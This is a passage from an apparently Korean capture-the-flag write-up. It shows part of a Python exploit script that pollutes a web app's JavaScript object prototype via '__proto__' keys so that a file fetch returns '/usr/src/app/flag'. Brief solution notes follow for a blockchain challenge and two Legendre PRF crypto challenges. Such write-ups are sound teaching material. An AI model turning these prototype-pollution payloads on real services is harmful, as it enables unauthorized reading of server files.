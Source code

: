 ```python
print(c)

### users[qqq].workspaces["__proto__"].owner = "__proto__"
c = requests.post(URL + f"/users/{user}/__proto__", json={"userid":user,"token":token,"file_name":"owner","file_content":"zzlol","file_path":"__proto__"}).json()
print(c)

### users[qqq].workspaces["__proto__"].workspaces = "asdfasdfasdf"
c = requests.post(URL + f"/users/{user}/__proto__", json={"userid":user,"token":token,"file_name":"workspaces","file_content":"zzlol","file_path":"asdfasdfasdf"}).json()
print(c)

### users[qqq].workspaces["__proto__"].zzzzzz = "flag"
c = requests.post(URL + f"/users/{user}/__proto__", json={"userid":user,"token":token,"file_name":"zzzzzz","file_content":"zzlol","file_path":"flag"}).json()
print(c)

### users[qqq].workspaces["__proto__"].base_dir = "/usr/src/app"
c = requests.post(URL + f"/users/{user}/__proto__", json={"userid":user,"token":token,"file_name":"base_dir","file_content":"zzlol","file_path":"/usr/src/app"}).json()
print(c)

### get(users.__proto__.base_dir + users.__proto__.workspaces.__proto__.zzzzzz)
### == get("/usr/src/app/flag")
c = requests.get(URL + "/users/__proto__/__proto__/zzzzzz", json={"userid":'__proto__',"token":'__proto__',"ws_name":"123"}).json()
print(c)

print(b64decode(c['file_content']).decode())
```

## R. billionaire - Blockchain

Contract를 배포하는 트랜젝션의 디테일 페이지에 들어가면, 플래그 데이터가 담긴 storage를 확인할 수 있다.

휙득한 데이터를 solidity 코드에 맞게 xor해주면 플래그를 휙득할 수 있다.


## T. Legendary - Crypto

Legendre PRF 문제이다.

어느 깃허브 [레포지토리](https://github.com/cryptolu/LegendrePRF)에 이더리움 바운티가 걸린 Legendre PRF를 풀기 위한 솔브 코드가 작성되어 있었다.

해당 레포의 `solve.cpp`를 주어진 문제에 맞게 적당히 수정하여 컴파일 한 후 실행하면 플래그를 휙득할 수 있었다.

## U. Legendary - Revenge - Crypto

[T](#t-legendary---crypto)에서 `prime`의 비트 수가 많아지고, output이 줄어들었다.

때문에, 동일한 방법으로 풀이를 하려고 시도했다.
